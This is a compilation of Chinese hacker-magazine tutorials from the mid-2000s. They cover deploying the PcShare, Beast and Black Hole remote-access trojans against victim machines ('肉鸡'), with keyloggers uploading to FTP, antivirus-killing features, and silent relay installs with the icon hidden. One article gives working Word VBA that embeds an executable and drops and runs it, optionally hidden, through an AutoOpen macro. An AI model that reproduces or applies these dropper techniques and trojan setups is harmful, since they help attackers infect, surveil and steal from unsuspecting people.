其实我们不是说不要肉鸡和端口映射,其实我们是通过正常的一个稳定的公司免费为我们提供肉鸡和端口映射即迈科公司!http://www.comexe.cn我们要借助迈科公司提供的内网建站标准版来实现!因为它的标准版正好用到端口映射!而不像内网建站专家和迈科的内网专业版!关于迈科标准版的使用方法我不想在这个地方用掉过多的篇幅,你可以到它的官方论坛或帮助系统里了解一下,我们只说一些主要的!首先我们要登录http://www.comexe.cn网站注册一个用户名,然后我们申请内网动态域名服务。如图16所示。


虽然免费14天,可这根本不影响我们的肉鸡上线,您可以等一年后再升级你的PCshare客户端,只不过我们重新申请就可以了,而且申请极其简单,只需一步,而且我们最初的用户名根本不用改,因为申请内网动态域名是完全在内部的,就像我从2003年以来只jack4588020一样!而且最重要的是标准版winsetup.exe体积小巧,仅有400多KB,远比建站专家好几兆的体积便于随身携带,完全可以装到QQ硬盘里!然后我们点击刚刚申请的域名标准版pchare.dns0755.net。如图17所示。


我们把端口名填入任意的大写字母,我习惯填的名字XGYM,点击修改资料就好了!

接着我们运行下载来的winsetup.exe,把我们申请的内网域名按提示写入,如图18所示。


在需要代理域名里填入自己申请来的域名,比如我的pchare.dns0755.net代理服务器访问的密码我们就填自己的用户密码。点击下一步,如图19所示。注意添加XGYM即端口名称!!


点完成就完成winsetup.exe的所有操作!如图20所示。

好了,现在我们可以去设置PCshare了!首先要把PCshare的端口从80改到7631,如图21所示。


我们在生成客户端时要选中起用自带URL转发本机IP地址,在指定转发URL中填入自己的空间地址,如我的是http://xgym.51.net/ip.jpg。

注意文件名是以ipg形式结尾的,因为虎翼公司的广告会影响客户端对IP的正常读取!如果你申请的空间是没有广告的,就完全可以以.txt的形式结尾,然后我们就可以点击生成了!

不知道大家在看上文的时候注意到没有?迈科的代理服务地址是nat.dns0755.net,我们需要的是迈科代理服务的真实IP,好,我们就ping一下nat.dns0755.net如图22所示。


看到了吗?就是210.22.12.55了!

下面来到我们最关键的地方了。在刷新IP地址的地方我们键入刚才ping到的IP210.22.12.55,在FTP文件路径里,我们键入图上的地址,这是虎翼公司免费空间的默认路径地址!我们还要注意端口是不是正确即我们申请到的端口7631?审查无误后我们就可以刷新IP了,如果我们刷新成功!就可以等我们的肉鸡上线了。在这里我们应该注意一个小问题,要不我们的肉鸡可能不会上线!假如我们申请的地址是http://pchare.dns0755.net我们就要在浏览器里输入它,而且让它随便访问一下。这样就可以刺激一下我们的winsetup.exe!如图23所示。


上面的日志是无法连接127.0.0.1:80,这样我们的肉鸡会很快上线的!

## HACKER'S TOOLS
> 栏目编辑 蝴蝶 butterly@hacker.com.cn

我们刷新IP完了以后还要验证是否是真的成功了！可以看图24成功了！


000.001，但这根本不会影响我们，我们完全可以用反向终端的ipconfig命令查出肉鸡的真实IP！如图25所示。


看到了吗？我的肉鸡上线了！细心的我们肯定会发现为什么我们的肉鸡上线IP为127.000.000.001，其实通过端口映射上线的肉鸡一般的IP都是127.000.000.001，但这根本不会影响我们，我们完全可以用反向终端的ipconfig命令查出肉鸡的真实IP！如图25所示。

### 到教育网Http代理问题

现在的教育网一般都使用了ISA的Http代理上网，这样一方面起到防火墙的作用，另一方面可以提高网速，毕竟有缓存功能嘛！可这也给我们带来了不少的麻烦，


如我们的winsetup.exe根本连不上迈科的代理服务器，如图26所示。

```
服务已启动。
-050603 09:02:46: MESC:
MAT Proxy Console_Version 1.00b Build 336
Copyright 2002 Shenzhen COMEXE Communication Technology Co. Ltd.
All Rights Reserved.
http://www.dns0755.net

-050603 09:02:502:MESC:连接失败，等待重联...
-050603 09:02:602:MESC:连接失败
-050603 09:02:605:MESC:连接失败，等待重联...
```

这样我们的肉鸡是不会上线的！在这里我推荐大家用"通通通"(http://www.tongtong.com/)下载和SocksCap相配合！不过"通通通"毕竟不是太稳定，我们就将就着用吧！关于怎么配合，有空我会在http://xgymcn.x168.com做成动画的，或直接联系本人xgymcn@163.com。

### 写在最后

因为考虑到我们的“万能”免杀方法能用的久一点，我没把修改好的免杀PcClient.dll，Pclnit.exe，PcCorrtr.dll文件上传到空间，请大家自行设计，这样我们可以设计出更不一般的免杀文件，而且都不一样！

适合读者：网民
前置知识：Word使用基础

### Word 2003 也玩免杀

文/图 PE生涯

相信有些朋友还未试过一台机只有Word 2003就成了杀手吧？今天我就讲下我的个人经历吧。

由于三级网络考试下半年就开始报名了，现在我还是三无人员(没有工作，因为还是大一的学生；没有计算机证书，以前懒考；没有时间，因为我不是计算机专业的)，按现在来看，我应为自己着想一下，所以下了决心去考个证，钱也交了，难道还退避吗？

由于我没有考试的资料书，所以只好在网上找资料了。真的，免费的午餐是很少的，就连网上的资料也只得一半，要想多看一些那只有金钱主义了。无奈中只好接受，一半就一半，当保存后用Word 2003打开时发现转到它的网站发现就出现网站的内部目录，我真的不敢相信自己的眼睛，好一会才回过神来。如图1所示。


看到第一个框吧，“User-Agent:MSFrontPage/6.0”。原来Word也可以当FrontPage来用，因为它用的请求是FrontPage标志。但是同学的计算机没有装FrontPage呀。不管，反正能用就是了，从硬盘里找出我最爱用的ASP马儿，看看它都已经很久没有用过了，居然在今天用得上。图4那个“Global.asp”就是我用Word来编一个ASP保存在网站上的文件。


现在眼前，心想Word 2003会不会跟FrontPage也一样的吗？如图2所示。

连最显眼的那个Databaseup;Databxbase也出


于是从网上找出WSockExpert0.6看看Word在背后做了些什么。如图3所示。

到这里就可以说完毕了。真的有点想不到，Word 2003也可以当FrontPage来用，且现在这样大的网站也存在这样的Bug。真的不明白那些Administrator在干什么。

www.hacker.com.cn
2008精华奉献本 下册

适合读者：入侵爱好者，木马爱好者
前置知识：木马使用基础

# # 王者归来
——禽兽复活版

文/图 孤独一枝

喜欢玩木马的朋友一定听说过大名鼎鼎的木马Beast（禽兽），可是该木马自从去年推出了Beast 2.07版以后，就再也没有进行过任何更新，以至于人们以为这个木马已经停止开发了。就在几天前，笔者无意间在网上发现了其最新的版本——Beast Reloaded（禽兽复活版）。下面就请大家随着笔者一起来看看重生后的禽兽展现出的王者风范吧。

# ## 配置木马服务端

首先从网上下载Beast Reloaded版的压缩包，解压后运行文件夹中的Beast.exe即可启动木马的客户端程序。从弹出的操作界面来看，Beast Reloaded版的禽兽依然保持了老版本的操作界面，并且操作界面已经由热心的网友进行了汉化，所以我们操作起来就会更加方便。如图1所示。


在了解了禽兽复活版的基本情况后，我们开始进行服务端程序的配置。服务端程序的配置在木马的操作过程中是非常重要的一步，它的好坏直接影响到后面木马的控制操作。点击操作界面的“生成服务端”按钮，再弹出的“服务端设置”窗口中对木马的服务端进行配置。点击配置窗口左侧的“基本设置”按钮后，在右侧出现的界面中可以对服务端的文件名、连接方式、注射等信息进行设置。如图2所示。


禽兽复活版在连接方式上为用户提供了正向连接和反弹连接两种。不同的方式，由于现在广大用户都使用反弹连接的方式进行连接，所以这里就以这种方式进行讲解。

点击“反弹连接”选项，在“SIN Port”中设置反弹连接所用的端口，木马默认的端口数为9999，用户当然可以根据自身的要求对端口进行重新设置。如果需要配置正向连接的服务端程序，就选择“手动连接”选项就可以了。

为了增强服务端程序的隐蔽性，广大的恶意程序都纷纷推出了不同的隐藏方法，但是大家最中意的还是进行线程插入，禽兽复活版也是采用的这种方法。禽兽复活版在线程插入选项中，除了常见的“注射到I E浏览器”和“注射到Explorer.exe”两个选项外，还可以将服务端程序的进程根据用户的需要插入到其它的程序进程中，这样就为木马的隐藏增加了可选性，用户在查找起来也更加麻烦，我个人觉得QQ.exe就是个不错的选择。然后在“Server Name”中设置服务端程序的名称，为了更好地保护服务端程序，还可以通过“第二进程”中再设置一个其他的服务进程，这样两个不同的进程就可以相互“关照”，在一个进程被关闭后，另一个进程就可以马上重新生成一个新的进程，感觉怎么越来越像病毒啊。另外，我们还可以选择木马安装到系统的Windows目录还是System目录。

点击“通知设置”按钮，通过它可以对服务端程序的上线通知方式进行设置。禽兽复活版为用户提供了电子邮件、FTP、SIN等多种上线通知方式供大家选择，大家可以根据自己的实际情况进行设置。如图3所示。


由于前面我们选择了反弹连接的方式，所以这里选择“FTP”这种方式，这就是我们常见的FTP反弹连接方式。根据你的网络空间情况，对用户、密码、目录等信息进行相应的设置就可以了，设置完成后最好点击“测试”按钮进行一下测试。

接着点击“启动设置”按钮，对服务端的启动方式进行设置，禽兽复活版除了采用常见的利用注册表的启动项进行启动外，还采用了在国外很流行的利用ActiveX控件进行木马启动的方式，这样就更加增强了服务端程序隐蔽性。如图4所示。

再点击“AV-FW 杀手”按钮，通过它的设置可以对众多的安全软件进行查杀，更好的保护自己的安全。首先点击“启动AV-FW 杀手”选项来启动该功能，然

## HACKER'S TOOLS
> 栏目编辑: 蝴蝶) butterfly@hacker.com.cn

后选择“禁止XP自带的防火墙”选项，服务端程序可以封杀掉Windows系统自带的网络防火墙。选择“终止防火墙/杀毒软件”选项，可以通过定时检测防火墙和杀毒软件的运行情况，来对启动的安全软件进行查杀。如图5所示。

木马服务端默认就可以杀掉383种防火墙和杀毒软件，如果你觉得不够可以点击“设置”按钮进行添加，例如你想杀掉瑞星，就输入“RISING”就可以了。如图6所示。

接下来点击“其他设置（1）”按钮，在这里用户可以对服务端程序的其它选项进行设置，如图7所示。

设置了“运行后删除自身”选项后，服务端就会在成功安装运行后自动删除服务端程序本身。而“清除系统还原点”选项可以清除XP系统的自动还原功能，这样用户就无法还原到“干净”的系统状态。用户在选择了“启动键盘记录”后就可以激活键盘记录功能。点击“设置”按钮，在弹出的“设置键盘记录”窗口对键盘记录的日志间隔以及FTP空间进行设置，以后服务端程序就会定时的将键盘记录的日志上传到FTP空间了。通过“延时运行”设置选项，可以让服务端程序在你设定的时间或者系统重新启动的次数后进行安装运行。

再点击“Exe 图标”按钮来对服务端的图标进行设置。木马本身已经为用户提供了大量的图标，用户可以根据自己的需要选择喜欢的图标。如果没有喜欢的图标，可以点击“添加图标”按钮来添加自己需要的图标。通过“添加文件”按钮，还可以选择和服务端程序进行捆绑，不过只能捆绑一个文件。如图8所示。

最后点击“其他设置（2）”按钮，用户可以通过“URL下载者”来设置服务端程序运行后下载其它的文件进行运行。除此之外，禽兽复活版还可以对服务端程序的文件格式进行设置。除了常见的EXE文件类型外，还可以生成SCR、PIF、COM等其它的文件格式。所有选项的设置完成后，点击“保存”按钮来对刚刚的设置情况进行保存，下次在配置服务端程序时，点击“载入”按钮就可以读取以前的配置文件了。如图9所示。

最后点击“生成”按钮就可以在木马的文件夹中生成一个新的木马服务端，服务端程序会自动经过加壳处理。如果你觉得必要的话，可以点击主窗口上的“合并器”按钮，然后在弹出的窗口对服务端同其他的文件进行捆绑处理。

### 控制服务端

我们通过网页木马、P2P软件将配置好的服务端传播出去后，我们就可以等待服务端程序自动得反弹连接本地的客户端程序。由于我们在配置服务端程序的时候是采用的反弹连接的方式，所以在主界面中的“端口”中填入刚刚设置服务端时填入的端口号，然后点击“开始监听[SIN]”按钮打开监听端口进行监听，等待服务端上线。

我们首先在用户列表中任意选择一台上线的远程计算机，然后进行远程管理操作。Beast木马的远程管理分为管理器、系统设置、恶作剧、服务端设置和其他设置这几大项，每一项中还包括很多其他的小项。

我们首先来看看“管理器”项，它包括了文件管理、注册表管理、桌面管理、进程管理等。我们先来点击“桌面捕捉”命令，通过它可以查看到远程桌面的操作情况。如图10所示。

这里要说明一点，Beast为了减小服务端的体积，将很多的功能通过插件的形式进行体现，这样用户在需要使用某些功能的时候再上传相应的插件就可以了。“桌面捕捉”命令就是一个需要插件进行支持的命令，当用户运


www.hacker.com.cn
2006 精华奉献本 下册

行该命令后,客户端程序首先将检测远程服务端是否安装了相应的插件,如果没有,就会提示用户进行上传。点击Beast主界面的“插件”按钮,在弹出的窗口中,我们选择“桌面捕捉插件”选项,然后点击“安装/反安装”按钮。如图11所示。
同时我们看到,除了这个插件以外,还包括“摄像头插件”和“获取木马插件”两项,也就是说在使用这些功能的时候同样需要插件的支持。回到“远程桌面”窗口,用户点击“捕捉”按钮就可以抓取远程桌面的图像,通过“质量”滑杆可以对捕捉的图像进行调整,点击“另存为”按钮可以将捕获的图像保存为JPG格式的图片。用户选择了“启动鼠标点击”选项后,就可以通过在捕获的图片上直接通过鼠标对远程计算机进行远程操作了。“摄像头”命令的操作和“桌面捕捉”命令差不多,这里就不再叙述了。


下面我们来看看“文件管理”命令,通过它我们可以对远程计算机中的文件进行管理,这也是远程管理程序的一项重要的管理命令。用户在点击该命令后,在弹出的“文件管理器”窗口中就会出项远程计算机的磁盘列表,如果没有列出,用户可以点击“搜索驱动”按钮即可。用户通过上传、下载、重命名、运行等命令就可以对远程文件进行管理。如图12所示。
如果用户想要寻找某个文件的话,点击“搜索文件”按钮,在弹出的“文件搜索”窗口中进行搜索就可以了。如图13所示。


再来说说“密码管理”命令,通过它用户可以获取远程计算机的MSN、共享、缓存中的密码,这个命令也是可以插件支持的。用户需要查看哪一项的密码,就点击相应的选项按钮,通过“保存”按钮还可以将获取的密码保存到本地的文件中。如图14所示。
管理命令还包括注册表管理、窗口管理、进程管理、剪切板管理等,这些命令都很简单,这里就不多说明了。
管理命令介绍得差不多了,我们再来看看“系统设

置”选项,它可以对远程计算机进行包括关闭电源、重新启动、关闭机器等操作。在这些命令中,有一个非常可怕的命令——清除CMOS,不用我多说用户也明白了这个命令的危害性,所以大家一定要慎用该命令。


Beast木马除了包括很多优秀的功能以外,它的恶作剧命令也是非常丰富的,用户可以通过这些命令来装神弄鬼,Beast木马的恶作剧包括了两大项,第一项中包括常见的隐藏图标、隐藏托盘、隐藏开始、隐藏时钟等;而第二项中包括噪声、打开URL、设置壁纸、对话和系统破坏等功能,下面我们就来看看其中的一些命令。
用户在点击了“噪声”命令后,就会通过远程计算机的音箱发出一些令人烦躁的声音,使人心情烦躁。通过“对话”按钮,用户可以通过弹出的对话窗口和远程用户进行及时地通信交流,在不知道对方的QQ、MSN的情况下,这是一个不错的功能。首先设置你和远程用户的昵称,然后在信息输入框中输入你要发送的信息,点击“发送”按钮即可。如图15所示。


而在“系统破坏”命令中,包含了对Explorer、系统和网络等不同对象的破坏。比如破坏“Explorer”中的桌面、注销、控制面板等;“系统”中的禁止背景、禁止任务管理器;“网络”中的打印共享、整个网络等。这里需要说明一下,这里的破坏不单是隐藏图标那么简单,而是使这些命令丧失运行的能力,使用户无法正常地使用。如图16所示。


“服务端设置”项目中更新、关闭服务端、卸载服务端和服务端信息等命令，通过“更新”命令我们及时地对服务端程序进行更新，这样就可以避免我们的服务端程序被杀毒软件所查杀。下面我们再看看“其他设置”项目中的命令，它包括扫描器、远程SHELL、离线记录、在线记录等多个命令。

点击“扫描器”命令，用户可以扫描那些被Beast的服务端程序打开了设定端口的电脑，这样我们的可以轻易的找到安装有Beast服务端的电脑，像国内著名的木马冰河就包含同样的命令，当然你也可以通过这个扫描命令对其它的端口进行扫描。如图17所示。


远程Shell命令就是一个模拟的远程终端命令，用户可以通过它执行很多的终端命令，例如netstat -an等。如果用户在配置服务端程序的时候设置了启动键盘记录功能选项，通过“离线记录”命令就可以将服务端程序记录的键盘记录下载到本地电脑进行查看。如图18所示。


而“在线记录”命令则可以及时地记录下当前的键盘记录。

好了，到这最新的禽兽复活版的主要功能就为大家介绍到这，除了上面介绍的这些功能以外，禽兽复活版还包括皮肤管理器、流程监控等有用的命令，大家有兴趣的话可以试试这个最新版的木马程序。如果有什么问题的话，可以到《黑客防线》的论坛和我共同探讨。 HD

适合读者：脚本爱好者，入侵爱好者
前置知识：宏使用基础

### 利用Office夹带可执行程序

文 / 图 刘黎


在CHM文件中夹带程序的方法，大家都不会陌生吧？其实在Office文档中，也能夹带可执行程序。中国X黑客小组（http://www.cnhacker.com）上曾经公开过一个在Office中夹带可执行程序的方法，但始终有两个问题没有得到很好的解决：一是夹带后的文档过大，一个16KB的服务端夹带到空白Word文档中后，该空白文档竟然达到290多KB；二是夹带的可执行程序是以十六进制“明码”的方式保存在文档的宏代码中的！这样的Office文档，稍有一点警觉性的人，肯定不会轻易去打开它的。

如何避免这两个问题，制作出理想“夹带”文档来呢？其实并不复杂，如下所述。

1. Office程序。我们今天准备用的是Word，在Excel或其它Office组件中也一样，只要弄懂原理，发挥就在于你自己。
2. 一个将用来被夹带的可执行程序。我随便用VB生成了一个，取名叫“假如我是小马.exe”，运行效果如图1所示。

不过由于方法上的限制，建议你在实验的时候，不要选用大小超过1MB的程序。为了解决前面所说的夹带后文档过大，而且程序是“明码”的问题。为了叙述与理解方便，我先将“假如我是小马.exe”，放到C：盘根目录下。

我们首先要做的是将“假如我是小马.exe”转为二进制编码并“藏”入文档：打开Word，进入“工具”--〉“宏”--〉“V B 编辑器”，双击左边工程资源管理器中“文档”下的“ThisDocument”即可打开右边的代码窗口，如图2所示，输入如下代码。


```
Sub A1()
Dim strPostfix As String, aArray As Variant
MyFileName = "C:\假如我是小马.exe" ' 此处根据你的具体情况，输入相应文件：
Open MyFileName For Binary As #1
N = LOF(1)
' 以二进制的方式读出程序，按字节构成数组元素；
ReDim arrBytes(1 To N) As Byte
' 将打开的程序文件读入数组变量之中；
Get #1, , arrBytes
' 关闭该文件，
Close #1
' 以下在该二进制数组中循环；
For Each aArray In arrBytes
' 以下，字符串数据以“,”为分隔符在内容中累加；
Mystring = Mystring & aArray & ","
Next
Erase arrBytes '清空数组，释放内存；
' 以下将最后一个“,”分隔符去掉；
Mystring = Mid(Mystring, 1, Len(Mystring) - 1)
' 下面这句是关键，在文档中建立一个名为KK的“文档变量”用来保存二进制形式的可执行程序，这也是能够以“隐藏”的方式夹带程序的关键！
Documents(1).Variables.Add Name:="kk", Value:=Mystring
End Sub
```

运行上面的A1宏，完成之后，你要夹带的程序就已经神不知鬼不觉地“藏”入你的Word文档中了。然后呢，请注意下面的几步操作：删除你刚刚运行了的图2中的A1宏；保存文档；再次进入“工具”→“宏”→“安全性”，将宏的“安全性”设为低（也可以设为“中”，不过每次运行时你都得手工确认宏是否运行）；关闭Word。

由于你已经删除了刚才运行过的宏，如果你现在把得到的这个文件交给任何一个人，他打开后看到的也不过就是一个“空白”的文档而已。我们采用的夹带方法是将程序以二进制的形式添加为文档的一个“文档变量”，比起使用十六进制数组直接写到“宏”中，最后生成的Word文档至少小三分之二！不信？！现在来看看你处理后的这个文档的大小，怎么样？我用的“假如我是小马.exe”有16K，“藏”入文档后，文档也不过才8.9K（用十六进制会有290多K啦！）。

对程序与文档的预处理已结束，下面，我们将使程序在文档被打开时还原并自动运行！继续开工！

```
如果你不放心，想验证一下程序是否真的已被“夹入”这个“空白文档”的话，你可以运行下面的宏，这样，在你的“空白”文档中，会出现已变为二进制的程序“天书”。
Sub rding()
    myRange = CStr(ActiveDocument.Variables("kk").Value)
    Documents(1).Range(0, 0).Text = myRange
End Sub
```

正式处理阶段：打开我们已“藏”好了程序的文档，进入“VB编辑器”，输入以下的宏（已在关键地方进行了详细注释）：

```
Sub AutoOpen()
Dim RevertFileName As String
Dim MyArray() As String
Dim arrBytes() As Byte
Dim N As Long, aVar As Variant, aArray As Variant
RevertFileName = "C:\我不请自来.exe" ' 这句指定复原后的地址与名称，当然了，你肯定会考虑用“%Windir%”或“%SystemRoot%”一类的地址啦，我这里只是说明原理，就简单点了！
MyArray = Split(ActiveDocument.Variables("kk").Value, ",")
' 还记得刚才我们给那个“文档变量”取的名字叫“kk”吗？这句读出它的值。
' 以下，将程序还原到指定位置
ReDim arrBytes(UBound(MyArray()))
N = 0
For Each aArray In MyArray
    arrBytes(N) = aArray
    N = N + 1
Next
Open RevertFileName For Binary Access Write As #1
Put #1, , arrBytes
Close #1
' 下面这句，就是运行程序啦！YX = Shell(RevertFileName, 1) ' 后一个参数“1”是原窗口大小显示，如果你夹带的是一小马儿的话，你不会用参数“1”吧？当然是用“0”隐藏窗口运行啰！
End Sub
```

OK！所有工作完成！可以将这个文档发给谁试试啦！运行一下，效果如图3所示。


我这里用的运行参数是“1”，所以可以看到“假如我是小马.exe”已经运行了，如果设为“0”，则程序将在后台隐藏运行。不过，你不要忘了运行后删除“C：\假如我是小马.exe”。最后，友情提示3点。

- 1. 我上面的例子在最后复原程序时，用了“AutoOpen”自动宏，如果是在Excel中，则使用Auto_Open自动宏，当然，相应代码中的“Document对象”就要改为“Workbook对象”了。
- 2. 以上操作，我在Windows 98/Office 2000、Windows 2003/Office 2003下运行通过，本文所用的试验材料与代码已打包，大家可以试一下。不过呢，你在实际运用时，会发现有时候这个夹带的宏是不会运行的，那是因为对方宏安全设置的是“高”。怎样让对方的安全变低呢？这是我下次“骗稿费”时的选题啦！
- 3. 本文提供的夹带方法，仅为学习研究，请勿使用在不当的地方。

适合读者：入侵爱好者，木马爱好者
前置知识：木马使用基础

### 是童话2005之中转服务讲解

文/图 孤独一枝

近日，黑洞的作者陈经韬正式的推出了网友盼望已久的黑洞2005企业版。如果说年初推出的黑洞2005专业版（演示版）是对黑洞2004版的优化与更新的话，那么黑洞2005企业版推出就不单单是简单的优化，而是在软件技术上又加入了新的创新，新的亮点，这其中最大的亮点莫过于采用了数据中转技术，可以轻易地实现局域网计算机对局域网计算机的远程控制。我们知道，以前要进行局域网计算机对局域网计算机的远程控制，必须采用反弹连接+端口映射的模式才行，而黑洞2005企业版可以不用这种模式即可实现我们的要求。不过黑洞2005企业版在使用上也显示出它不足的一面，就是软件在第一次配置的时候过于专业，不适合广大的菜鸟朋友使用，今天就对大家不易操作的地方进行讲解说明。

在讲解中转服务技术以前，我们还是首先来对远程控制软件的发展进行一些简单的梳理，这样才便于我们更好的了解这些全新的技术。就当前的情况来看，对于远程控制类的软件，还没有一个划分的标准。虽然网上到是有一些IT作家按照隐藏之类划分过，不过由于其本身工作不是搞技术的缘故，有些未来型的远程控制划分的并不准确，很多技术可行性不高，至少目前看来如此。实际上，我认为应该按照连接方式来划分远程控制方面的软件，因为远程控制的本质是数据传输，例如，冰河属于第一代远程控制软件的代表，不能说为它加上一个ROOTKIT就变成第三代、第四代了。ROOTKIT的用处虽然比较多，并不只是用于远程控制，而是另外一个范畴的事情了。所以，黑洞的作者从技术方面入手，为我们重新划分了远程控制软件的类别，这里我们暂且称其此划分为“陈氏理论”吧。

#### 陈氏理论

第一代：主动连接型，代表软件包括国内的冰河，国外的BO等

优点：客户端不用动态IP地址。

缺点：服务端必须有动态IP地址或处于同一局部网，客户端和服务端互相之间IP是透明的。

第二代：反连接型，又可以细分为直接TCP和HTTP隧道等（HTTP也是TCP的一种）

优点：服务端不用动态IP地址。

缺点：客户端必须有动态IP地址或处于同一局部网，客户端和服务端互相之间IP是透明的。

第三代：数据中转型

优点：客户端和服务端都不需动态IP，客户端和服务端互相之间IP隐蔽。

缺点：必须存在一动态IP电脑作为中间服务器。

第四代：P2P型

优点：客户端和服务端都不需动态IP。如果打洞成功，那么数据传输比较快，但是因为UDP的特性，必须作校验。

缺点：并不是所有网络都支持NAT，必须存在一动态IP电脑作为中间服务器（作用是打洞或转发数据）客户端和服务端互相之间IP是透明的。

第五代：自定义协议型

优点：抛弃系统的IP协议，完全自定义栈，数据不经过系统的中间层，穿越防火墙。

缺点：对作者功力和毅力要求非常高，特别是Windows 9x系统下的无驱开发。

#### 搭建中转服务器

黑洞2005企业版的服务端程序采用了“数据中转”的形式进行连接，这样服务端程序首先会根据用户配置服务端程序时填写的“获取中转服务器的IP地址URL”项目来读取中转服务器的IP地址，然后再连接到中转服务器，最终和客户端程序进行连接。黑洞2005企业版为用户提供了使用FTP更新IP地址、网易的Yeah.net免费域名和专用ASP文件系统来进行IP地址转向的三种方式。这里作者还特别的提醒用户，如果使用的网易域名转向系统停止了服务或者更新了数据格式，你将永远的失去对远程服务端的控制，所以建议用户使用FTP更新或专用ASP文件系统的方式来进行连接。下面，笔者就以专用ASP文件系统这种连接方式来为用户进行讲解。

首先从网站上下载黑洞2005企业版的压缩包，解压以后就可以开始操作了。首先需要用户去申请一个支持ASP服务的网络空间，然后打开黑洞文件夹中一个名为“ASP”的文件夹，再将其中的4个ASP文件上传到我们的ASP网页空间中。在这4个ASP文件中，名为getip.asp和setup.asp的文件最为重要，客户端程序和服务端程序将通过getip.asp文件来获得中转服务器的IP地址，而当中转服务器启动后将会自动把它的IP地址更新到网络空间中的setup.asp文件中。假设我们的网站域名为http://www.mm.com/的话，我们上传的两个ASP文件的链接就分别为http://www.mm.com/getip.asp和http://www.mm.com/setip.asp。等文件上传完毕后,我们就可以开始搭建中转服务器了。

首先,我们登录到一台拥有动态IP的电脑上,如果用户找不到服务器作为中转服务器,而自己本身又是拨号上网的话,那么就可以在自己的电脑上安装中转服务器了。打开“中转服务器”文件夹,在这里就可以开始中转服务器的安装了,而且中转服务器支持多种不同的安装方式。

- 1. 不安装直接运行:直接运行Transfer.exe即可。不需要时直接点击“文件”菜单中的“退出”命令皆可。
- 2. 直接安装:在命令行下输入"Transfer.exe /install"即可完成安装,或者直接双击运行“直接安装.bat”这个批处理文件。
- 3. 安静安装:在命令行下输入"Transfer.exe /install /silence"即可完成安装,或者直接双击运行“安静安装.bat”这个批处理文件,这种方式适合于在远程的肉鸡中进行安装。

安装完成后,程序被安装于系统的%System%目录下(9x是System,NT核心的系统是System32),9x下会随注册表的启动项自动启动,而在NT核心的系统中将会利用服务项进行启动。

虽然按照上面介绍的“安静安装”的方式可以将中转服务器软件安装到远程肉鸡中,可是中转服务器会在远程肉鸡的任务栏出现一个程序的图标,下面我就告诉大家如何隐藏这个图标。

- 1. 首先在本机计算机中安装中转服务器,然后配置好各种相关的信息,包括中转ASP地址和用户信息等。中转服务器的设置信息将保存在本地的Transfer.dat中。
- 2. 把自己电脑中的Transfer.dat文件复制到远程肉鸡的%system%目录中,由于安装方式的不同,Transfer.dat文件所在的目录也不尽相同。
- 3. 在本地新建一个Transfer.ini文件,内容如下:

```
[Option]
ShowIcon=0
```

当ShowIcon的内容为0时则表示隐藏图标,为1时则显示图标,然后将这个文件复制到远程肉鸡的系统%system%目录下。

- 4. 现在将中转服务器程序复制到远程肉鸡的任何一个目录中,然后再执行“安静安装.bat”后首先会检查系统中有没有Transfer.dat文件,有就读里面的配置信息,否则将新建一个Transfer.dat文件并使用默认的信息。然后再检查Transfer.ini 文件,根据里面的内容来确定是否在任务栏显示图标。只有通过上面的这些操作后,中转服务器程序就不会显示出图标了。

中转服务器运行后,会在系统的任务栏中出现一个图标。双击这个图标,就会弹出一个登录窗口。如图1所示。

输入软件默认的登录密码admin后,进入程序的主界面后对程序的系统设置进行修改。如图2所示。

点击“文件”菜单下的“系统设置”命令,在弹出的“系统设置”窗口中设置监听端口和管理密码,因为中转服务器的IP不是固定的,所以我们需要把“自动更新IP地址到空间”选项勾上,然后在下面输入之前上传到网络空间的ASP地址,也就是http://www.mm.com/setip.asp。如果存放ASP文件的网络空间和中转服务器位于同一台电脑,用户可以通过“空间跟中转服务器位于同一电脑”选项由中转服务器直接更新到本机的IP地址,否则,还是让ASP空间获取递交给中转服务器所在的IP地址。如图3所示。

这样设置后,中转服务器会在每间隔10秒钟就检查一次自己的IP地址,如果发生改变,则自动地通过该ASP文件更新到网络空间中。如果这里不填写的话,那么你将需要每次在客户端的“更新地址”设置中手动填写中转服务器的IP地址。如果我们点击“用户数据”选项卡,通过右键菜单中的“添加”命令来添加一个用户,当然也可以根据实际的情况添加多个用户,实现一台中转服务器多人使用。在弹出的“用户信息”窗口中,任意的输入一个用户名和密码即可,这里我们设置用户名为heidong,密码为123456。如图4所示。

至此,我们的中转服务器已经成功搭建完成了。

#### 客户端设置

现在运行黑洞2005企业版的客户端程序,如果是第一次使用黑洞2005企业版的话,那么首先要通过“系统设置”按钮来进行一些必要的设置,不然的话我们将无法和中转服务器进行连接。点击黑洞客户端主界面中的“系统设置”按钮,在弹出的“系统选项”窗口中进行设置。“中转服务器IP”和“端口”两项不用填写,主要对“自动获取URL”、“登录用户名称”和“密码”3项进行设置。在“自动获取URL”选项中,我们填写用于获取中转服务器IP地址的ASP文件的链接,也就是前面说


黑客X档案 2006精华奉献本 下册 www.hacker.com.cn


## HACKER'S TOOLS

栏目编辑）蝴蝶 butterfly@hacker.com.cn

的http://www.mm.com/getip.asp，这个地址在后面的配置服务端程序时还会用到的。如果用户在这里不设置这个网络地址的话，那么用户只能通过手工方式来填写前面提到的“中转服务器IP”和“端口”两项了。而“登录用户名称”和“密码”选项也分别填入在配置中转服务器中添加的用户名和密码，分别为heidong和123456。如图5所示。


设置完毕后，我们点击“获取”按钮，客户端程序就会自动地将获取到的中转服务器的IP地址和端口并写入“中转服务器IP”和“端口”两个选项中。到此为止，我们已经设置好全部的参数了，点击“确定”按钮退出“系统选项”窗口，然后直接点击“连接登录”按钮即可登录到中转服务器，然后和连接到中转服务器的服务端程序进行连接，从而进行远程控制。黑洞2005企业版的客户端程序在连接中转服务器的时候，用户还可以通过“网络设置”按钮中的选项来配置它们之间的连接方式，包括直接连接，HTTP代理连接或是SOCKET5代理连接等。如图6所示。


### 配置服务端程序

下面我们在来看看服务端程序是怎么配置的，这里我们主要讲解一些容易配置出错的地方。点击主界面中“文件”菜单下的“配置服务端”命令，然后弹出黑洞2005企业版的“服务端程序配置”窗口。新版黑洞在配置服务端程序方面和以前有很大的不同，在新版本中配置选项通过“安装选项”、“启动选项”、“功能选项”和“上线选项”4个选项卡来体现，每个选项卡都针对不同的配置选项，这样配置起来就更加的方便，这里就不多说呢，下面主要讲解一下关于“上线选项”的配置。

点击“上线选项”选项卡，新的黑洞2005企业版在连接方式上因为采用了数据中转技术，从而和老板本的黑洞有很大的不同。在“上线显示名称”中根据自己的意愿随意设置一个名称，主要用于服务端程序上线后的显示。“客户端用户名”则设置为在中转服务器中设置的用户名，我们前面设置的是heidong。而“获取中转服务器IP地址URL”则设置为用于获取中转服务器的ASP文件的地址，也就是http://www.mm.com/getip.asp。如图7所示。


